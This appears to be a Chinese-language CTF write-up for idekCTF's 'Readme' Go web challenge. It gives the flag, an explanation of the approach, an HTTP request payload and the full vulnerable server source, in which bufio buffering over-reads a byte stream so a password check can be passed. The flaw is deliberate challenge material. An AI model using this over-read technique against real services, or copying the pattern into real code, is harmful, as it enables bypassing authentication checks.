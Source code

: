 - flag: `idek{BufF3r_0wn3rsh1p_c4n_b1t3!}`
- # 思路
	- 题目会新建一个reader读取`randomData`这个byte数组，然后可以通过提交一个数组多次控制这个reader读取1\~100B的数据
	- 使用reader后，题目会再次从`reader`中读取32B的数据，验证是否和`randomBytes[12625:12625+32]`相同
	- 注意到题目中含有一个`bufio`，可以使用其一次性读取4096B的数据，从而绕过“读取1\~100B数据”这个限制，让`Validate`读取到12625处的数据
- # Payload
	- ```http
	  GET /just-read-it HTTP/1.1
	  Host: readme.chal.idek.team:1337
	  Upgrade-Insecure-Requests: 1
	  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
	  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
	  Accept-Encoding: gzip, deflate
	  Accept-Language: en-US,en;q=0.9
	  Connection: close
	  Content-Length: 38
	  
	  {"orders":[100,100,100,99,99,99,40]}
	  
	  ```
- # 源码
	- ```go
	  package main
	  
	  import (
	  	"bufio"
	  	"bytes"
	  	"context"
	  	"crypto/sha256"
	  	"encoding/json"
	  	"errors"
	  	"fmt"
	  	"io"
	  	"io/ioutil"
	  	"math/rand"
	  	"net/http"
	  	"os"
	  	"time"
	  )
	  
	  var password = sha256.Sum256([]byte("idek"))
	  var randomData []byte
	  
	  const (
	  	MaxOrders = 10
	  )
	  // 生成randomData并覆盖password[]
	  func initRandomData() {
	  	rand.Seed(1337)
	  	randomData = make([]byte, 24576)
	  	if _, err := rand.Read(randomData); err != nil {
	  		panic(err)
	  	}
	  	copy(randomData[12625:], password[:])
	  }
	  
	  type ReadOrderReq struct {
	  	Orders []int `json:"orders"`
	  }
	  
	  func justReadIt(w http.ResponseWriter, r *http.Request) {
	  	defer r.Body.Close()
	  
	  	// 读取body
	  	body, err := ioutil.ReadAll(r.Body)
	  	if err != nil {
	  		w.WriteHeader(500)
	  		w.Write([]byte("bad request\n"))
	  		return
	  	}
	  
	  	// 读取JSON
	  	reqData := ReadOrderReq{}
	  	if err := json.Unmarshal(body, &reqData); err != nil {
	  		w.WriteHeader(500)
	  		w.Write([]byte("invalid body\n"))
	  		return
	  	}
	  
	  	// 检查orders数组长度
	  	if len(reqData.Orders) > MaxOrders {
	  		w.WriteHeader(500)
	  		w.Write([]byte("whoa there, max 10 orders!\n"))
	  		return
	  	}
	  
	  	reader := bytes.NewReader(randomData)
	  	validator := NewValidator()
	  
	  	ctx := context.Background()
	  	for _, o := range reqData.Orders {
	  		// 检查o的数值
	  		if err := validator.CheckReadOrder(o); err != nil {
	  			w.WriteHeader(500)
	  			w.Write([]byte(fmt.Sprintf("error: %v\n", err)))
	  			return
	  		}
	  
	  		// context: 读取随机数据的reader和输入的buffer大小
	  		ctx = WithValidatorCtx(ctx, reader, int(o))
	  		// 丢掉相应大小的数据
	  		_, err := validator.Read(ctx)
	  		if err != nil {
	  			w.WriteHeader(500)
	  			w.Write([]byte(fmt.Sprintf("failed to read: %v\n", err)))
	  			return
	  		}
	  	}
	  
	  	if err := validator.Validate(ctx); err != nil {
	  		w.WriteHeader(500)
	  		w.Write([]byte(fmt.Sprintf("validation failed: %v\n", err)))
	  		return
	  	}
	  
	  	w.WriteHeader(200)
	  	w.Write([]byte(os.Getenv("FLAG")))
	  }
	  
	  // 启动后台
	  func main() {
	  	if _, exists := os.LookupEnv("LISTEN_ADDR"); !exists {
	  		panic("env LISTEN_ADDR is required")
	  	}
	  	if _, exists := os.LookupEnv("FLAG"); !exists {
	  		panic("env FLAG is required")
	  	}
	  
	  	initRandomData()
	  
	  	http.HandleFunc("/just-read-it", justReadIt)
	  
	  	srv := http.Server{
	  		Addr:         os.Getenv("LISTEN_ADDR"),
	  		ReadTimeout:  5 * time.Second,
	  		WriteTimeout: 5 * time.Second,
	  	}
	  
	  	fmt.Printf("Server listening on %s\n", os.Getenv("LISTEN_ADDR"))
	  	if err := srv.ListenAndServe(); err != nil {
	  		panic(err)
	  	}
	  }
	  
	  type Validator struct{}
	  
	  func NewValidator() *Validator {
	  	return &Validator{}
	  }
	  
	  // 检查输入是否在1~100内
	  func (v *Validator) CheckReadOrder(o int) error {
	  	if o <= 0 || o > 100 {
	  		return fmt.Errorf("invalid order %v", o)
	  	}
	  	return nil
	  }
	  
	  // 读取context内的reader
	  func (v *Validator) Read(ctx context.Context) ([]byte, error) {
	  	r, s := GetValidatorCtxData(ctx)
	  	buf := make([]byte, s)
	  	_, err := r.Read(buf)
	  	if err != nil {
	  		return nil, fmt.Errorf("read error: %v", err)
	  	}
	  	return buf, nil
	  }
	  
	  // 检查context内的reader中的buf是否和password相同
	  func (v *Validator) Validate(ctx context.Context) error {
	  	r, _ := GetValidatorCtxData(ctx)
	  	buf, err := v.Read(WithValidatorCtx(ctx, r, 32))
	  	if err != nil {
	  		return err
	  	}
	  	if bytes.Compare(buf, password[:]) != 0 {
	  		return errors.New("invalid password")
	  	}
	  	return nil
	  }
	  
	  const (
	  	reqValReaderKey = "readerKey"
	  	reqValSizeKey   = "reqValSize"
	  )
	  
	  // 读取context的两个kv
	  func GetValidatorCtxData(ctx context.Context) (io.Reader, int) {
	  	reader := ctx.Value(reqValReaderKey).(io.Reader)
	  	size := ctx.Value(reqValSizeKey).(int)
	  	if size >= 100 {
	  		// bufio 缓存，可能造成过量读取
	  		reader = bufio.NewReader(reader)
	  	}
	  	return reader, size
	  }
	  
	  // 为context加上两个kv
	  func WithValidatorCtx(ctx context.Context, r io.Reader, size int) context.Context {
	  	ctx = context.WithValue(ctx, reqValReaderKey, r)
	  	ctx = context.WithValue(ctx, reqValSizeKey, size)
	  	return ctx
	  }
	  ```